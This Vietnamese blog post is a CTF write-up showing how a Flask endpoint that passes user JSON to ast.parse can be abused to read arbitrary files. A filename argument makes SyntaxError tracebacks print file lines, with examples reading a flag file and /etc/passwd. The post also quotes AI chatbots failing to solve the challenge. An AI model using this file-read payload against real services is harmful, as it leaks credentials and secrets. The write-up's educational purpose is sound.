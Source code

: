 title: Đọc file tùy ý với ast.parse
date: 2025-02-26
tags: ast, Python, security,
category: pymi.vn
slug: ast_parse
authors: Pymier0
description: ast.parse chỉ parse code thành AST, liệu có đọc được file?

Bài trước [biến nhỏ hơn thành lớn hơn với ast]({filename}/ast_intro.md) giới thiệu sử dụng AST để biến code thành tree, giúp xử lý code theo kiến trúc (thay vì text).

Bài viết này có liên quan tới module `ast`, nhưng trong một hoàn cảnh khác... liên quan tới bảo mật.

### Đề bài - web TRX CTF 2025
Giải [TRX CTF 2025](https://ctftime.org/event/2654) có đề bài cho 1 trang web như sau:

```py
import ast
import traceback
from flask import Flask, render_template, request

app = Flask(__name__)

@app.get("/")
def home():
    return render_template("index.html")

@app.post("/check")
def check():
    try:
        ast.parse(**request.json)
        return {"status": True, "error": None}
    except Exception:
        return {"status": False, "error": traceback.format_exc()}

if __name__ == '__main__':
    app.run(debug=True)
```

một website flask đơn giản, nhận đầu vào tùy ý của người dùng và chạy `ast.parse`.
Một file `secret.py` nằm cùng thư mục, chứa flag

```py
    
def main():
    print("Here's the flag: ")
    print(FLAG)

FLAG = "TRX{fake_flag_for_testing}"

main()
```

Mục tiêu là đọc giá trị của `FLAG`.

### Đọc tài liệu ast.parse

```
Python 3.10.12 (main, Feb  4 2025, 14:57:36) [GCC 11.4.0] on linux
>>> import ast
>>> print(ast.parse.__doc__)

Parse the source into an AST node.
Equivalent to compile(source, filename, mode, PyCF_ONLY_AST).
Pass type_comments=True to get back type comments where the syntax allows.
```


Tài liệu không ghi gì hơn là đá sang đọc doc của builtin function compile:

```py
>>> print(compile.__doc__)
Compile source into a code object that can be executed by exec() or eval().

The source code may represent a Python module, statement or expression.
The filename will be used for run-time error messages.
The mode must be 'exec' to compile a module, 'single' to compile a
single (interactive) statement, or 'eval' to compile an expression.
The flags argument, if present, controls which future statements influence
the compilation of the code.
The dont_inherit argument, if true, stops the compilation inheriting
the effects of any future statements in effect in the code calling
compile; if absent or false these statements do influence the compilation,
in addition to any features explicitly specified.
```

**The source code may represent a Python module, statement or expression.  The filename will be used for run-time error messages.**

filename được dùng cho run-time error messages, nhưng không rõ ràng là dùng thế nào.
Trên doc trang chủ:

```
ast.parse(source, filename='<unknown>', mode='exec', *, type_comments=False, feature_version=None)¶
```
filename mặc định có giá trị là `<unknown>`.
Thử vài ví dụ:

```py
>>> ast.parse(open(ast.__file__).read(), '<unknown>')
<ast.Module object at 0x752c51f9d7e0>
>>> ast.parse('for i in range(10):\n    print(i)', '<unknown>')
<ast.Module object at 0x752c520ebcd0>
>>> ast.parse('for i in range(10):\n    print(i', '<unknown>')
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python3.10/ast.py", line 50, in parse
    return compile(source, filename, mode, flags,
  File "<unknown>", line 2
    print(i
         ^
SyntaxError: '(' was never closed
```
có thể thấy khi có SyntaxError, màn hình sẽ hiện ra dòng code bị lỗi syntax, và file `<unknown>` không đóng vai trò gì cả.

Nhưng khi gán filename="secret.py", dòng số 2 của file này lại hiện ra:

```py
>>> ast.parse("for i in range(10):\n    print(i", "secret.py")
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python3.10/ast.py", line 50, in parse
    return compile(source, filename, mode, flags,
  File "secret.py", line 2
    def main():
             ^
SyntaxError: '(' was never closed
```
đề bài khá "lươn" vì viết code từ dòng thứ 2, nếu người dùng thử với `source='def'` thì sẽ không hiện ra gì.
Vậy chỉ cần viết code xuống đến dòng thứ 6 rồi viết syntax error sẽ hiện ra FLAG:

```py
>>> ast.parse("\n\n\n\n\ndef", "secret.py")
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python3.10/ast.py", line 50, in parse
    return compile(source, filename, mode, flags,
  File "secret.py", line 6
    FLAG = "TRX{fake_flag_for_testing}"
       ^
SyntaxError: invalid syntax
```

Thậm chí có thể đọc file tùy ý, không cần phải code python:
```py
>>> ast.parse("def", "/etc/passwd")
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python3.10/ast.py", line 50, in parse
    return compile(source, filename, mode, flags,
  File "/etc/passwd", line 1
    root:x:0:0:root:/root:/bin/bash
       ^
SyntaxError: invalid syntax
```

Đọc code CPython, lần theo function [compile](https://github.com/python/cpython/blob/43a2a372ba071c4ebb1071240da2b852c29d77fb/Python/bltinmodule.c#L759-L855) sẽ tháy

```
PyObject *
_PyErr_ProgramDecodedTextObject(PyObject *filename, int lineno, const char* encoding)
{
...
    FILE *fp = _Py_fopen_obj(filename, "r" PY_STDIOTEXTMODE);
```
trong [errors.c](https://github.com/python/cpython/blob/43a2a372ba071c4ebb1071240da2b852c29d77fb/Python/errors.c#L1946)


### Góc AI
Vác luôn đề hỏi các AI xịn nhất ngày nay xem:

[Claude.ai](https://claude.ai/chat/553d2e6f-62f4-4048-8480-f2e1367426f6)

> Given the code shown, I don't see a direct path to reading the FLAG from secret.py through the ast.parse() function alone. The function's parameters don't provide functionality to import or read other files in a way that would return their contents through the error messages.

sau một hồi đoán mò lung tung đủ thứ. ChatGPT 4o-mini dù phát hiện đoạn code có thể bị DOS attack, nhưng cũng nhầm lẫn tương tự và không thể tìm được cách tấn công.

Chờ bạn đọc chăm chỉ test với DeepSeek R1.

### Kết luận
`ast.parse` có thể đọc file tùy ý.

Hết.

HVN at <http://pymi.vn> and <https://www.familug.org>.

[Ủng hộ tác giả 🍺](https://www.familug.org/p/ung-ho.html)
